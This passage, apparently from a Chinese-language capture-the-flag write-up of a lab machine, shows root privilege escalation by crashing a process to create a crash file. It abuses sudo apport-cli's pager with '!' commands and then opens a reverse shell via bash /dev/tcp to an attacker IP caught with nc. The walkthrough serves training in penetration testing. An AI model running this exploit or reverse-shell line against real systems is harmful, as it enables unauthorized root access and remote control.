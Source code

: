 

用到了/var/crash下的一个crash文件，但是当前机器上没有。简单google了一下相关知识得知crash文件是系统崩溃时产生的核心转储文件。我们只需要创建一个系统崩溃就可以得到该文件。简单的办法是创建一个进程让它执行，然后在它执行的过程中利用kill发送SIGSEGV信号来导致目标进程崩溃。

```
logan@devvortex:~$ ls /var/crash
crash.txt
logan@devvortex:~$ sleep 60 &
[1] 17284
logan@devvortex:~$ kill -SIGSEGV 17284
logan@devvortex:~$ ls /var/crash/
crash.txt  _usr_bin_sleep.1000.crash
[1]+  Segmentation fault      (core dumped) sleep 60

```

然后执行上述的验证poc

```
logan@devvortex:~$ sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_sleep.1000.crash

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (29.9 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
........................................................................................................................................................................................................
!id
uid=0(root) gid=0(root) groups=0(root)
!done  (press RETURN)
```

执行`!bash -c 'bash -i >& /dev/tcp/10.10.16.11/4444 0>&1'`获取反向shell

```
┌──(root㉿kali)-[/tmp]
└─# nc -nvlp 4444                                            
listening on [any] 4444 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.11.242] 32828
root@devvortex:/home/logan# id
id
uid=0(root) gid=0(root) groups=0(root)
root@devvortex:/home/logan# 

```

